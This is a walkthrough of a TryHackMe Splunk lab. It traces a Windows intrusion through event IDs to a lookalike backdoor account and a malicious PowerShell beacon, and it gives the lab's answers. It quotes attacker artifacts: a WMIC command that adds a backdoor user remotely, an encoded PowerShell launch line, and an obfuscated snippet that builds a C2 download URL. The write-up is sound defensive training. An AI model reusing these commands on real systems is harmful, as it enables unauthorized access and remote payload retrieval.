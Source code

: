 ```yaml
---
title: Investigating with Splunk
layout: default
platform: tryhackme
---
```


# Investigating with Splunk

## Scenario

In this scenario, we’re receiving a set of logs that contain anomalous behavior from a network of Windows machines. It’s our job to identify those anomalies and answer the related questions posed by the room. All relevant logs are the index “main”.

### Question 1: Total events
<b>“How many events were collected and Ingested in the index main?”</b>

To find the total number of events, we can create a simple search query containing a field:value pair. These pairs will make up the majority of our searches as we progress through the investigation. To start, we’ll use the search (`index="main"`). This will display all the events within the “main” index, where our relevant logs are kept.

Don’t forget to change the timeframe! By default, you’ll only see a fraction (or none) of the events in the index. For this exercise, use “All Time”.

![](img/1.jpg)

With our time frame set and our first search entered, we can see the total number of events under the search bar – <b>12256</b> events.

### Question 2: Backdoor user
<b>“On one of the infected hosts, the adversary was successful in creating a backdoor user. What is the new username?”</b>

Let’s consider the information we’ll need to answer this question: the new username, and an event in which a user account was created. We know that we’re in a Windows environment, and by examining the “Interesting Fields” pane, we can see that the EventID field is available to us. This means that Windows and/or Sysmon from the Sysinternals suite has done some logging. Both Windows and Sysmon use EventID to store an ID number that correlates to a type of event.

In this case, we want to see events in which a user account was created, which is logged as ID number 4720. We can append a filter for that ID to our search: (`index="main" EventID="4720"`)

![](img/2.jpg)

There’s only one event returned, and it indicates the account that created the backdoor, James, and the name of the new backdoor account, A1berto. Pay particular attention to the spelling – the “L” is replaced with a “1”, likely in an attempt to appear similar to an already-existing legitimate user.

### Question 3: Registry key
<b>“On the same host, a registry key was also updated regarding the new backdoor user. What is the full path of that registry key?”</b>

Similarly to how we found the event logged when a new user was created, we can find events related to registry updates. The applicable event ID is 13. By altering the event ID from our previous search to 13, we can see all registry updates in the index. However, there are over 1,000 of them, most unrelated to the new backdoor user. To further refine our search, I’ll add the username to the search: (`index="main" EventID="13"`) a1berto

![](img/3.jpg)

There’s only one event returned and it has the registry path we want:
```
HKLM\SAM\SAM\Domains\Account\Users\Names\A1berto
```

### Question 4: Legitimate user
<b>“Examine the logs and identify the user that the adversary was trying to impersonate.”</b>

We can probably guess the answer to this, but let’s make sure to do our due diligence.

For this question, we don’t need to use a event ID or the backdoor username, so I’ve removed them from the search. We want to view logs from the entire index: index="main".

By selecting the “User” field in the “Interesting fields” pane, we can see one of the most active users is Cybertees\Alberto. The question doesn’t need the domain, only the username: Alberto.

![](img/4.jpg)

### Question 5: Remote backdoor command
<b>“What is the command used to add a backdoor user from a remote computer?”</b>

Since Windows must run a process to add a new user, and each time a new process is created a log entry is added, there must be another log with a different Event ID containing the command that was executed. This Event ID is #1. By adding that value to our search, we are down to 25 logs: index="main" EventID="1"

To find the command among these 25 logs, we can look back at our “Interesting fields” pane. By clicking on the “CommandLine” field, we can see a list of commands, including the one for which we’re looking:

“C:\windows\System32\Wbem\WMIC.exe” /node:WORKSTATION6 process call create “net user /add A1berto paw0rd1”

![](img/5.jpg)

### Question 6: Backdoor logins
<b>“How many times was the login attempt from the backdoor user observed during the investigation?”</b>

When a user logs in remotely, Sysmon logs a new network connection with Event ID 3. That log contains the username in the User field. Before even filtering the ID, I’ll add a filter for the backdoor user: (`index="main" User="A1berto"`)

![](img/6.jpg)

0 results means there were 0 logons from the backdoor account.

### Question 7: Infected host
<b>“What is the name of the infected host on which suspicious Powershell commands were executed?”</b>

By simply searching (`index="main" powershell`) and examining the Hostname field, we can see that only one host has any PowerShell history: James.browne.

![](img/7.jpg)

### Question 8: Malicious PowerShell
<b>“PowerShell logging is enabled on this device. How many events were logged for the malicious PowerShell execution?”</b>

This question again relies on event IDs. When PowerShell logging is enabled, Windows logs all PowerShell commands with event ID 4103. By searching for events with this ID, we find there were 79 malicious PowerShell commands: (`index="main" EventID="4103"`)

![](img/8.jpg)

### Question 9: Web request
<b>“An encoded Powershell script from the infected host initiated a web request. What is the full URL?”</b>

From our previous search, we can examine any of the returned logs to find a suspicious looking Base64 string preceded by the command (`C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -noP -sta -w 1 -enc`)

![](img/9.jpg)

To get the answer, we need to decode the Base64 string. To do that, I used the following command in a Linux terminal: (`echo $STRING > base64.txt && base64 --decode base64.txt.`) In the output, there’s some obfuscation going on, but this part is particularly pertinent:
```
$ser=$([TeXT.ENCodiNG]::UnicodE.GetStriNG([CoNVeRT]::FroMBASe64StRInG('aAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADAALgA1AA==')));$t='/news.php'
```

As you can see, there’s a second Base64 string in there, so I’ll decode it too by following the same process. Doing so yields the URL (defanging my own) hxxp[://]10[.]10[.]10[.]5.

Later in the obfuscated code, we see (`DowNLoadDatA($SEr+$t)`), which is the actual web request. To get the URL, we combine $SEr and $t. This becomes hxxp[://]10[.]10[.]10[.]5/news[.]php.

I’ve already defanged the URL, but your results will look like a real one. To get the defanged version like I have above, run the URL through CyberChef’s “Defang URL” recipe. It’s required for the final question.

![](img/10.jpg)
